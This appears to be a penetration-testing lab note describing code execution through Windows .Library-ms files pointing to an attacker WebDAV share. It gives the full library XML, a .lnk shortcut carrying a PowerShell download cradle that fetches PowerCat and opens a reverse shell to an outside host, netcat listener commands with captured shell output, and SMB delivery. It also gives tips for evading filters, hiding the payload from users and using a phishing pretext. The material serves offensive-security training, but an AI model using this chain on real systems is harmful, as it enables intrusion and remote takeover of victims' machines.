

---
tags:
  - client-side-attacks
  - webdav
  - library-files
  - lnk-shortcuts
  - powercat
  - reverse-shell
  - phase/exploitation
---

# Obtaining code execution via Windows library files

> [!tip] Quick Reference
> | Goal | Detail |
> |------|--------|
> | Stand up the WebDAV share | `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/` |
> | Library file extension | `.Library-ms` — XML container, opens as a normal-looking folder in Explorer |
> | Library file name/icon | Use DLL+index references (`@windows.storage.dll,-34582`, `imageres.dll,-1003`) — never a raw string |
> | Reset gotcha | Windows auto-rewrites the `url` tag + adds a `serialized` tag after first use — repaste the original XML before resending |
> | Stage 2 payload | `.lnk` shortcut on the WebDAV share, target = PowerShell download cradle + PowerCat |
> | Delivery in this lab | `smbclient //<target>/share -N -c 'put config.Library-ms'` (`-N` = anonymous; omit and it tries your Kali username) |

## Visual Flow



## Why library files instead of a direct link

Malicious macros are increasingly caught — security products scan for them, Microsoft ships GPO templates specifically to restrict them, and security-awareness training singles them out. **Windows library files** (`.Library-ms`) are a lesser-known alternative that sidesteps a lot of that scrutiny.

A library file is an XML container that tells Windows Explorer to render a remote location (a WebDAV share, in this case) as if it were a normal local folder. Sending a raw link instead has an inherent weakness: spam filters and security tooling actively analyze link contents and file types before the target ever sees them. A `.Library-ms` file, by contrast, is commonly passed straight through to the user — Explorer just renders whatever the file points at, no different-looking from any other folder shortcut.

> [!info] Two-stage design
> **Stage 1** — the `.Library-ms` file gets the victim to open a WebDAV share that *looks* local. **Stage 2** — a `.lnk` shortcut sitting inside that share, which the victim double-clicks to actually trigger code execution. The library file itself does nothing malicious on its own; it just sets the stage.

## Stage 1 — standing up the WebDAV share

Install and run **WsgiDAV** on Kali as the WebDAV server:

```bash
sudo apt install python3-wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

| Flag | Purpose |
|------|---------|
| `--host=0.0.0.0` | Listen on all interfaces |
| `--port=80` | Serving port |
| `--auth=anonymous` | No credentials required to browse/write |
| `--root /home/kali/webdav/` | Directory served as the WebDAV root |

Confirm it's up by browsing to `http://127.0.0.1` — `test.txt` should be visible.

> [!danger] "Permission denied" or "Address already in use" on port 80
> Binding to port 80 requires root — run `wsgidav` with `sudo`, or it'll fail with a permission error. If something else is already bound to 80 (a leftover `python3 -m http.server`, Apache, etc.), `wsgidav` fails to start instead — `sudo ss -lntp | grep :80` to find and kill the culprit, or pick a different `--port` and update the `url` value in the XML (below) to match.

## Building the library file's XML

RDP into the build VM (`xfreerdp /v:<CLIENT-IP> /u:offsec /p:lab`) and open **Visual Studio Code** (Notepad also works). `File → New Text File → Save As → config.Library-ms` on the desktop.

> [!tip] Pasting the XML in — enable clipboard sharing
> The XML snippets below are meant to be copy-pasted from Kali straight into the RDP session. Add `/clipboard` to the `xfreerdp` command to sync the clipboard both ways; without it, paste inside the VM does nothing and you're stuck retyping XML by hand. If clipboard sharing still won't cooperate (some lab images block it), fall back to serving the XML as a `.txt` over `python3 -m http.server` and opening it in a browser inside the VM to copy from there instead.

> [!warning] Saving with the extension alone changes the icon
> The moment the file is saved as `.Library-ms`, Explorer assigns it a distinct icon — not overtly dangerous-looking, but also not one Windows uses commonly, which can itself raise suspicion. Worth deliberately overriding it (see `iconReference` below) to blend in.

A library file has three parts: **general info**, **properties**, and **locations** — all XML, namespaced to the Windows 7+ library format:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
</libraryDescription>
```

**Name and version** — the name isn't an arbitrary string, it's a DLL+resource-index reference. `@windows.storage.dll,-34582` is used here instead of the `shell32.dll` equivalent specifically to dodge naive text-based filters that flag on "shell32":

```xml
<name>@windows.storage.dll,-34582</name>
<version>6</version>
```

**Pinning and icon** — pin the library to Explorer's navigation pane for extra legitimacy, and override the icon with a benign-looking one (Pictures folder icon, `imageres.dll,-1003`):

```xml
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
```

**Template info** — a GUID that controls which columns/details Explorer shows for the opened library. The Documents GUID is used here to look as ordinary as possible:

```xml
<templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```

**Search connector / location** — the actual payload: a `searchConnectorDescription` pointing `url` at the Kali WebDAV share over HTTP:

```xml
<searchConnectorDescriptionList>
    <searchConnectorDescription>
        <isDefaultSaveLocation>true</isDefaultSaveLocation>
        <isSupported>false</isSupported>
        <simpleLocation>
            <url>http://192.168.119.2</url>
        </simpleLocation>
    </searchConnectorDescription>
</searchConnectorDescriptionList>
```

Full assembled file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <isSupported>false</isSupported>
            <simpleLocation>
                <url>http://192.168.119.2</url>
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```

Save and double-click `config.Library-ms`. Explorer opens it and shows `test.txt` from the Kali WebDAV share — confirming the connection works. The address bar just shows `config`, with no visible indication the content is remote at all.

> [!success] What working stage 1 looks like
> Double-clicking `config.Library-ms` opens what looks like an ordinary folder, showing files that actually live on Kali's WebDAV share — no browser, no visible URL, no obvious network indicator.

## The self-mutation gotcha

Reopening the library file in VS Code afterward reveals Windows has **rewritten it**: a new `serialized` (base64) tag has appeared, and the `url` value changed from `http://192.168.119.2` to `\\192.168.119.2\DavWWWRoot`. Windows optimizes the connection info for its native WebDAV client once it's been opened once.

> [!danger] This can silently break the attack
> The mutated file still works on the machine that triggered the rewrite, but the `serialized` tag's encoded state may not transfer cleanly to other machines or survive a restart — Explorer can end up showing an empty share. **Fix:** before sending the file out again, paste the original XML back in to reset it to a known-good state. This has to be repeated every time the file is reused for testing, though in a real engagement the victim typically only needs to open it once.

## Stage 2 — the shortcut payload

On the desktop of the build VM: right-click → **New → Shortcut**. The "location of the item" field accepts an arbitrary command line — point it at PowerShell running the same download-cradle-plus-PowerCat pattern as [[Leveraging Microsoft Word macros]]:

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');powercat -c 192.168.119.3 -p 4444 -e powershell"
```

Name the shortcut something benign, e.g. `automatic_configuration`, and finish the wizard.

> [!tip] Hiding the payload from a suspicious user
> If a target might right-click and check the shortcut's Properties before running it, pad the command with a delimiter and an innocuous trailing command — the property window's visible field is narrow, so the malicious portion scrolls out of view and only the harmless tail is visible at a glance.

**On Kali**, before testing:

```bash
python3 -m http.server 8000    # serves powercat.ps1 — NOT port 80, wsgidav already owns it
nc -nvlp 4444                   # catches the shell
```

> [!warning] Port 80 is already taken by WsgiDAV
> The `.lnk` payload's download cradle points at `:8000` (see the target command above) precisely because WsgiDAV from Stage 1 is already bound to port 80 on the same Kali box — trying to also run `python3 -m http.server 80` here fails with `OSError: [Errno 98] Address already in use`. Keep the web server port and the `DownloadString` URL's port in sync if you change either one.

> [!info] Why not host PowerCat on the WebDAV share itself?
> The WebDAV share is writable — hosting the payload there risks it getting scanned, quarantined, or removed by AV/security tooling. Locking the share to read-only would fix that, but at the cost of losing it as a channel for pulling files *off* target systems. A separate Python web server for payload hosting keeps both capabilities intact.

Double-clicking the shortcut on the desktop (after confirming the "Open File" warning) triggers the chain — the listener catches a shell:

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.194] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\System32\WindowsPowerShell\v1.0>
```

## Putting it together against a real target

1. Copy `automatic_configuration.lnk` and the **reset** `config.Library-ms` into the Kali WebDAV directory (`/home/kali/webdav`), removing the leftover `test.txt` first.
2. Start all three services on Kali: `wsgidav` (WebDAV, port 80), `python3 -m http.server 8000` (PowerCat), `nc -nvlp 4444` (listener).
3. Deliver `config.Library-ms` to the target. In this lab, delivery is simulated via an accessible SMB share instead of email:
   ```bash
   cd webdav
   rm test.txt
   smbclient //<TARGET-IP>/share -N -c 'put config.Library-ms'
   ```
4. The pretext matters as much as the payload — e.g. posing as new IT staff rolling out a "configuration tool," instructing the target to open the library file's folder and double-click the shortcut inside it.
5. When the simulated user runs it, the listener catches the shell:
   ```
   PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
   hr137\hsmith
   ```

> [!danger] `NT_STATUS_ACCESS_DENIED` on the smbclient upload
> `smbclient` silently authenticates as **your local Kali username** if no credentials are given at all — it does *not* default to anonymous/guest. Running the bare command without `-N` or `-U` against a share that expects anonymous access (or a different valid account) fails with `NT_STATUS_ACCESS_DENIED` even though the share itself is reachable. Fix: pass `-N` explicitly for anonymous/null-session access (as above), or `-U <user>%<password>` if the share needs a specific account. Don't assume the connection is broken — check auth first.

> [!tip] Chainable with other vectors
> Nothing stops combining this with the Office macro technique from [[Leveraging Microsoft Word macros]] — e.g. a `.Library-ms` stage 1 delivering a weaponized document as stage 2 instead of a raw `.lnk`.

> [!danger] Common pitfalls
> - Forgetting the library file mutates itself after first use — resend a stale mutated copy and the victim gets an empty folder.
> - Hosting the PowerCat payload directly on the writable WebDAV share, risking AV quarantine.
> - Using a literal/arbitrary string for the `name` tag instead of a proper DLL+index reference.
> - Not resetting/removing test files (`test.txt`) from the WebDAV root before it goes "live" against a real target.
> - Running the PowerCat web server on port 80 alongside WsgiDAV — they collide; use a different port and keep it in sync with the `.lnk`'s download URL.
> - Running `smbclient` without `-N`/`-U` — it tries your local Kali username, not anonymous, and fails with `NT_STATUS_ACCESS_DENIED`.

> [!tip] Beginner note
> `DavWWWRoot` is the internal name Windows' native WebDAV redirector uses once it recognizes a UNC path as a WebDAV connection — seeing `\\<ip>\DavWWWRoot` after Windows "optimizes" the library file is expected, not a sign anything broke by itself.

## Lab question answers

**"Is the `.lnk` file tagged with the Mark of the Web when you execute it in Explorer by double-clicking the Windows library file?"** → **True** — confirmed hands-on. Even though the connection resolves to a `\\<ip>\DavWWWRoot` UNC-style path, Windows' **URL security zone mapping** still classifies a WebDAV host reached over plain HTTP as the **Internet zone** by default (it isn't in Trusted/Local Intranet zones), so the `.lnk` picked up from that share still gets a `Zone.Identifier` alternate data stream — MOTW is applied.

> [!info] MOTW being present ≠ the attack being blocked
> The reason this technique still works despite MOTW landing on the `.lnk`: **Windows doesn't gate `.lnk` execution behind MOTW** the way it gates Office macros (Protected View) or downloaded `.exe`/installer files (SmartScreen prompt). Double-clicking a MOTW-tagged shortcut just runs whatever it points to — no extra warning dialog in the way. So the real value of this vector isn't "it evades MOTW entirely" (it doesn't) — it's that `.lnk`/library files fall into file-type categories Windows doesn't bother gatekeeping on MOTW in the first place, unlike the Office macro vector where MOTW directly triggers Protected View.
>
> Verify it yourself: right-click the `.lnk` inside the opened library folder → Properties (no Unblock checkbox shown for this file type — the UI doesn't surface MOTW for shortcuts the way it does for documents).

> [!warning] Querying the stream directly over the WebDAV UNC path fails
> ```powershell
> Get-Item -Path "\\<kali-ip>\DavWWWRoot\automatic_configuration.lnk" -Stream Zone.Identifier
> # Get-Item : Insufficient system resources exist to complete the requested service
> ```
> This isn't "no MOTW" — it's the **WebClient/WebDAV redirector** rejecting the stream-enumeration request entirely; querying NTFS alternate data streams isn't supported over that protocol. To actually see the stream, copy the file out to a real local NTFS path **using Explorer's UI** (drag-and-drop or right-click Copy/Paste — `Copy-Item` in PowerShell skips ADS by default and won't carry it over) and check the local copy instead:
> ```powershell
> Get-Item -Path "C:\Users\offsec\Desktop\automatic_configuration.lnk" -Stream Zone.Identifier
> ```
> This mirrors what Windows actually does to execute a WebDAV-hosted file anyway — cache it locally first — and that local, Explorer-copied version is where the `Zone.Identifier` stream (MOTW) shows up.

> [!info] Hands-on labs
> The HR137 foothold, the "is the `.lnk` MOTW-tagged" true/false question, and the ADMIN capstone all require running the exercise against your own live lab instance — answers/flags are unique to your environment.

## Resources
- [WsgiDAV documentation](https://wsgidav.readthedocs.io/)
- [Microsoft — Library Description Schema](https://learn.microsoft.com/en-us/windows/win32/search/-search-3x-wds-extidx-createlibrarydescription)
- [PowerCat (GitHub)](https://github.com/besimorhino/powercat)

---
%% graph-links %%
## Related
- [[Leveraging Microsoft Word macros]]
- [[Preparing the attack]]
- [[Client fingerprinting]]
- [[🔣 Encoding Reference]]

> [!info] Navigation
> Section: [[Client-Side Attacks/Abusing Windows library files/_index|Abusing Windows library files]] · Home: [[🏠 Home]]
